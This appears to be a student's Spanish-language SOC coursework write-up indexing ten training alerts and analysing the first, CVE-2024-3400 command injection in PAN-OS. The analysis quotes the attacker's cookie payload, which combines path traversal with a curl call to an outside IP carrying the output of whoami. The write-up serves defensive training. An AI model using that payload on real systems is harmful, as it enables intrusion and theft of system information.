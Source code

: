 # 4.2 Respuesta y seguimiento de incidentes (RA4.def)
## Índice

1. [SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)](#1)
2. [SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation](#2)
3. [SOC170 - Passwd Found in Requested URL - Possible LFI Attack](#3)
4. [SOC202 - FakeGPT Malicious Chrome Extension](#4)
5. [SOC239 - Remote Code Execution Detected in Splunk Enterprise](#5)
6. [SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation](#6)
7. [SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515](#7)
8. [SOC168 - Whoami Command Detected in Request Body](#8)
9. [SOC164 - Suspicious Mshta Behavior](#9)
10. [SOC251 - Quishing Detected (QR Code Phishing)](#10)

## SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) <div id="1" />

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Command Injection on Software
- Criticidad: Crítico
- Descripción: Una vulnerabilidad de inyección de comandos se ha encontrado en el software de Palo Alto Networks PAN-OS 

Lo primero al revisar la incidencia, podemos ver que ya transmite un CVE, siendo el [CVE-2024-3400](https://security.paloaltonetworks.com/CVE-2024-3400), el cual revisaremos para detectar cual es dicha vulnerabilidad, y podemos comprobar que es una en la que tiene varios tipos de debilidades, los cuales son: Creación arbitraria de ficheros, Path Traversal y OS Command Injection.

![Untitled](imagenes/Incidente1-1.PNG)

El PA-Firewall-01 recibió una petición POST de la IP 144.172.79.92, siendo esta ‘/global-protect/login.esp/'. Como es lógico, el firewall lo detectó como la vulnerabilidad anteriormente mencionada, dado que detectó un SSEID alterado por el atacante, mostrando “SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa\curl${IFS}144.172.79.92:4444?user=$(whoami)`”, que pretendía hacer el comando curl con el nombre de usuario. Debido a la seriedad del asunto, se escaló al L2 para una investigación más profunda.
